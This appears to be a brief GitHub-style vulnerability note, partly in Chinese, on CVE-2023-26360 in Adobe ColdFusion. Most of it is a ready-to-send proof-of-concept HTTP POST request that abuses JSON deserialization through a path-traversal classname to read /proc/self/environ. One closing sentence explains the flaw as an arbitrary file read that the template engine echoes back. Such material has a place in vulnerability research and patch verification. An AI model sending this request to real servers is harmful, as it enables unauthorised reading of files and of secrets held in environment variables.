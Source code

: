 笔记可参考 [cfusion-cve](https://racerz.notion.site/Adobe-ColdFusion-e24c5d1b0853494ba265407595db79a0?pvs=4)

### CVE-2023-26360

- POC

  ```
  POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=wizardHash&_cfclient=true&returnFormat=wddx&inPassword=foo HTTP/1.1
  Host: 127.0.0.1:8500
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 86
  
  _variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
  ```

  主要源于 filter 当中存在 json 反序列化导致任意文件读取，最终模板引擎会将其解析并回显到脚本文件当中

